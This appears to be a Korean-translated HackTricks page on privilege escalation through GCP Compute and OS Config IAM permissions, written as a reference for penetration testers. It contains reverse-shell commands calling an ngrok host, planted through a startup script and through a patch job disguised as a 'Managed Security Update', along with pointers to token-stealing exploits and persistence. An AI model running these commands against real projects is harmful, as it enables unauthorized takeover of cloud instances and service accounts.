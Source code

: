 # GCP - Compute Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

GCP에서 Compute 및 VPC(네트워크)에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
인스턴스의 메타데이터를 수정해야 하는 모든 권한 상승 공격(새 사용자 및 SSH 키 추가 등)을 수행하려면 **인스턴스에 연결된 SA에 대해 `actAs` 권한이 필요합니다**, SA가 이미 연결되어 있더라도! 
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

이 권한을 사용하면 **인스턴스**의 **메타데이터** 정보를 **수정**하고 **사용자의 승인된 키**를 변경하거나 **sudo** 권한이 있는 **새 사용자**를 **생성**할 수 있습니다. 따라서 SSH를 통해 모든 VM 인스턴스에 접속하고 인스턴스가 실행 중인 GCP 서비스 계정을 탈취할 수 있습니다.\
제한 사항:

* GCP 서비스 계정은 기본적으로 VM 인스턴스에서 **매우 제한된 범위**를 가집니다.
* 로그인하려면 **SSH** 서버에 **연락할 수 있어야** 합니다.

이 권한을 악용하는 방법에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

새 시작 스크립트를 추가하고 인스턴스를 재부팅하여 이 공격을 수행할 수도 있습니다:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

이 권한은 **이전 권한과 동일한 권한**을 특정 인스턴스에 부여합니다. **이전 섹션과 동일한 취약점과 제한 사항이 적용됩니다**.

### `compute.instances.setIamPolicy`

이 종류의 권한은 **이전 권한으로 역할을 부여받을 수 있게 해주며**, 이를 악용하여 권한을 상승시킬 수 있습니다.

### **`compute.instances.osLogin`**

**OSLogin이 인스턴스에서 활성화된 경우**, 이 권한으로 **`gcloud compute ssh [INSTANCE]`**를 실행하여 인스턴스에 연결할 수 있습니다. 인스턴스 내에서 **루트 권한**은 없습니다.

{% hint style="success" %}
이 권한으로 VM 인스턴스에 성공적으로 로그인하려면 VM에 연결된 SA에 대해 `iam.serviceAccounts.actAs` 권한이 필요합니다.
{% endhint %}

### **`compute.instances.osAdminLogin`**

**OSLogin이 인스턴스에서 활성화된 경우**, 이 권한으로 **`gcloud compute ssh [INSTANCE]`**를 실행하여 인스턴스에 연결할 수 있습니다. 인스턴스 내에서 **루트 권한**을 가집니다.

{% hint style="success" %}
이 권한으로 VM 인스턴스에 성공적으로 로그인하려면 VM에 연결된 SA에 대해 `iam.serviceAccounts.actAs` 권한이 필요합니다.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

**서비스 계정이 할당된 가상 머신을 생성하고 메타데이터에 접근하여 서비스 계정의 토큰을 훔치는 것이 가능합니다**. 

이 방법에 대한 익스플로잇 스크립트는 [여기](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py)에서 찾을 수 있습니다.

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

**`osconfig.patchDeployments.create`** 또는 **`osconfig.patchJobs.exec`** 권한이 있는 경우 [**패치 작업 또는 배포**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching)를 생성할 수 있습니다. 이는 환경 내에서 수평 이동을 가능하게 하고 프로젝트 내 모든 컴퓨트 인스턴스에서 코드 실행을 얻을 수 있게 해줍니다.

현재 **인스턴스에 연결된 SA에 대해 `actAs` 권한이 필요하지 않다는 점에 유의하세요**.

수동으로 이를 악용하려면 [**패치 작업**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_job.json) **또는** [**배포**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_deployment.json)**를 생성해야 합니다.**\
패치 작업을 실행하려면: 

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

패치 배포를 배포하려면:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
The tool [patchy](https://github.com/rek7/patchy) 과거에 이 잘못된 구성을 악용하는 데 사용될 수 있었습니다 (하지만 지금은 작동하지 않습니다).

**공격자는 이를 지속성을 위해 악용할 수도 있습니다.**

### `compute.machineImages.setIamPolicy`

**Compute 이미지에 대한 추가 권한을 부여하세요.**

### `compute.snapshots.setIamPolicy`

**디스크 스냅샷에 대한 추가 권한을 부여하세요.**

### `compute.disks.setIamPolicy`

**디스크에 대한 추가 권한을 부여하세요.**

### 접근 범위 우회

이 링크를 따라가면 [**접근 범위를 우회하기 위한 아이디어**](../)를 찾을 수 있습니다.

### GCP Compute 인스턴스에서의 로컬 권한 상승

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## 참고자료

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWS 해킹 배우고 연습하기:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우고 연습하기: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
